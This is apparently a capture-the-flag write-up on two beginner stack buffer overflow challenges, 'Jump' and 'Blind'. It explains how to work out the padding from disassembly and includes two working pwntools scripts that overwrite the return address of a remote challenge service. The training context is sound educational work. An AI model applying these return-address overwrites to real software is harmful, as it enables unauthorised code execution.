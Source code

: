 ## Jump

---

Very simple buffer overflow:

1. Fill the buffer with padding (64 bytes from the disassembly)
2. The program spits out a 32 bit address, and since the return address lies right after the buffer (because there are no parameters), all you have to do is encode the bytes properly.

```
#!/usr/bin/python3

from pwn import *

#p = process('./jump')
p = remote('plsdonthaq.me', 2001)

padding = 'A' * 64
addr = p32(0x08048536)

p.sendline(padding.encode() + addr)

p.interactive()
```

## Blind

---

Same as jump (as the program says), but you don't know where the win function is.
Now that I have done jump though, this is fairly trivial, as all I have to do is `objdump -d blind | grep win` and I would have the address to put it. So same as before, fill the buffer with padding, then properly encode the address, and boom. Bof.

**Note:** The size of the buffer is very easy to find, but there might be a few cases:

1. Look at the offset from `ebp` that is loaded into the buffer, right before the `setbuf` function or the vulnerable `gets`
2. Cutter would list all the variables defined in the vuln function, with offsets: eg
   ```
    ; var char *s @ ebp-0x44
    ; var int32_t var_4h @ ebp-0x4
   ```
   Which means you can test 0x44 as the offset to your return address. (The buffer size is still 0x40). With the 32 bit int and the base pointer (presumably) stored on the stack you end up with a padding of 0x48 or 72 bytes.

```
#!/usr/bin/python3

from pwn import *

#p = process('./blind')
p = remote('plsdonthaq.me', 2002)

padding = 'A' * 72
ret = p32(0x080484d6)

p.sendline(padding.encode() + ret)

p.interactive()
```
